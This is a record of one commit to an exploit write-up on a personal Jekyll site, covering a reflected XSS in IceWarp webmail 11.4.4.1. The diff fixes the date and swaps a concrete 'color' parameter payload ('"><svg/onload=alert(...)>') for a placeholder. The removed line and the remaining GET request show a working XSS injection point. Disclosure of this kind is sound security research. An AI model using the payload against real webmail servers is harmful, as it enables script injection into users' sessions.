

Before and after one commit to lutfumertceylan/mywebsite, a Jekyll site: the page built from _exploits/2020-01-27-IceWarp-Exploit-XSS.md, in a window 1280 px wide and 1346 px high. Shown: the whole window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-01-27-IceWarp-Exploit-XSS.md

```diff
--- a/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
+++ b/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
@@ -13,9 +13,9 @@ tags:
 ---
 
 **Exploit Author :** Lutfu Mert Ceylan
-**Date :** 27.01.2019
+**Date :** 27.01.2020
 **Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/
-**Vendor Homepage :** https://www.icewarp.com/
+**Vendor Homepage :** https://www.icewarp.com/ <br>
 **Version :** IceWarp 11.4.4.1 and below
 **Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44
 **Category :** Reflected XSS
@@ -25,7 +25,7 @@ tags:
 
 **GET REQUEST :**
 
-GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1<br>
+GET /webmail/?color=**XSS PAYLOAD** HTTP/1.1<br>
 Host: **targethost**<br>
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br>
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
```
